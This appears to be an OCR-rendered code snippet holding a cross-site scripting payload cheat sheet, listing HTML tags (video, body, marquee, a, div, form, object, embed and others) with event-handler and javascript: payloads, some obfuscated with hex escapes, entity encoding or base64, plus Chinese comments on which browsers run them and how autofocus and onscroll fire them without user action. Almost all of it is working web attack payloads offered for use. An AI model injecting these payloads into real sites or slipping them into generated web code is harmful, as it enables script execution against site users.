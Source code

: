 ```html
<video><source onerror="alert(1)">
<video poster=javascript:alert(1)//></video> // Works Upto Opera 10.5
<video onkeyup=setTimeout`al\x65rt\x28/1/\x29```>
<video onkeydown=setTimeout`al\x65rt\x28/1/\x29```>

<audio>
<audio src=x onerror=alert("xss");>

<body>

<body
onscroll=alert("xss");><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus>    //利用换行符以及autofocus,自动去触发onscroll事件,无需用户去触发
<body onload=prompt(1);>

<textarea>
<textarea onfocus=alert("xss"); autofocus>

<keygen>
<keygen autofocus onfocus=alert(1)> //仅限火狐

<marquee>
<marquee onstart=alert(1)>hack the planet</marquee>  //Chrome不行,火狐和IE都可以
<marquee behavior="alternate" onstart=alert(1)>hack the planet</marquee>
<marquee loop="1" onfinish=alert(1)>hack the planet</marquee>
<marquee/onstart=confirm(2)>/

<isindex>
<isindex type=image src=1 onerror=alert("xss")>   //仅限于IE

<anytag>
<anytag onmouseover=alert(1)>M
<anytag onclick=alert(1)>M

<a>
<a onmouseover=alert(1)>M
<a onclick=alert(1)>M
<a href=javascript:alert(1)>M
<a href=javasc&#114;ipt:%61%6c%65%72%74%28%31%29>M
<a href="javascript:alert('test')">link</a>

<div>
<div onclick="alert('xss')">
<div onmouseenter="alert('xss')">   //当用户鼠标移动到 div 上时就会触发我们的代码.
<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="alert(1)">

<style>
<style onload=alert(1) />

<form>
<form/action=javascript:alert(22)><input/type=submit>
<form onsubmit=alert(23)><button>M

<object>
<object data="javascript:alert(document.domain)">
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">

<embed>
<embed/src=javascript:alert(29);>
```
```html
利用link远程包含js文件
```